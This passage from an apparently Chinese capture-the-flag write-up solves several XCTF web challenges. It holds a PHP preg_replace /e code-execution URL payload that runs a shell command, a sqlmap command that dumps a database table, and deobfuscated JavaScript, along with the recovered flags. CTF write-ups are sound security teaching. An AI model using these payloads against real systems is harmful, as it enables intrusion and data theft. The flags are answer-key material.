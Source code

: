 在 PHP 5.5 中 preg_replace() 函数 中 $pattern 存在 `/e` 模式修正符时，会把 $replacement 当做 PHP 代码执行。

```php
mixed preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] )
```

![](/assets/images/move/20190913235245.png)


Payload:

```php
http://111.198.29.45:31588/index.php?pat=/(.*)/e&rep=system(%27cat+s3chahahaDir/flag/flag.php%27)&sub=a
```

获取到 `cyberpeace{52ccd199b809d829873ec760128d2212}`.


## 0x03 NewsCenter

XCTF 4th-QCTF-2018

```bash
sqlmap -u "http://111.198.29.45:46407/" --forms -D news --tables -T secret_table --dump
```

获取到 `QCTF{sq1_inJec7ion_ezzz}`。


## 0x04 NaNNaNNaNNaN-Batman

tinyctf-2014

![](/assets/images/move/20190914102330.png)

修改后缀为 `.html` 打开为一个输入框，修改`eval`为`alert`获取代码。

```js
function $() {
    var e = document.getElementById("c").value;
    if (e.length == 16)
        if (e.match(/^be0f23/) != null)
            if (e.match(/233ac/) != null)
                if (e.match(/e98aa$/) != null)
                    if (e.match(/c7be9/) != null) {
                        var t = ["fl", "s_a", "i", "e}"];
                        var n = ["a", "_h0l", "n"];
                        var r = ["g{", "e", "_0"];
                        var i = ["it'", "_", "n"];
                        var s = [t, n, r, i];
                        for (var o = 0; o < 13; ++o) {
                            document.write(s[o % 4][0]);
                            s[o % 4].splice(0, 1)
                        }
                    }
```